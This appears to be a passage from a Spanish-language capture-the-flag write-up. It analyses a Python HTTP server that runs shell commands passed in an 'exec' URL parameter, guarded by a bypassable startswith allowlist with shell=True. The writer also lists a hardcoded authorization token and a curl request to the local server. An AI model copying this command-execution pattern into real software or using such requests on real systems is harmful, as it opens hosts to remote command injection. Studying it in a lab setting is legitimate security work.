 ```bash
            return

        parsed_path = urllib.parse.urlparse(self.path)
        query_params = urllib.parse.parse_qs(parsed_path.query)

        if 'exec' in query_params:
            command = query_params['exec'][0]
            try:
                allowed_commands = ['ls', 'whoami']
                if not any(command.startswith(cmd) for cmd in allowed_commands):
                    self.send_response(403)
                    self.send_header("Content-type", "text/plain")
                    self.end_headers()
                    self.wfile.write(b"Command not allowed.")
                    return

                result = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
                self.send_response(200)
                self.send_header("Content-type", "text/plain")
                self.end_headers()
                self.wfile.write(result)
            except subprocess.CalledProcessError as e:
                self.send_response(500)
                self.send_header("Content-type", "text/plain")
                self.end_headers()
                self.wfile.write(e.output)
        else:
            self.send_response(400)
            self.send_header("Content-type", "text/plain")
            self.end_headers()
            self.wfile.write(b"Missing 'exec' parameter in URL")

with socketserver.TCPServer(("", PORT), Handler) as httpd:
    httpd.serve_forever()
```

Este código crea un servidor HTTP en el puerto 8081 que solo permite ejecutar ciertos comandos (whoami y ls) del sistema si se proporciona una clave 
de autenticación válida en la cabecera de la solicitud, el parametro para la ejecucion de comandos seria `exec`, si reconstruyo esto, entonces quedaria:

```ruby
http://127.0.0.1:8081?exec=ls
```
en cuanto a la cabecera espera recibir en la socitud

```bash
Authorization: Basic we_are_bones_513546516486484
```

por lo que ahora realizo la peticion con `curl` pasandole la cabecera que espera

```ruby
curl -H 'Authorization: Basic we_are_bones_513546516486484' http://127.0.0.1:8081?exec=ls
```
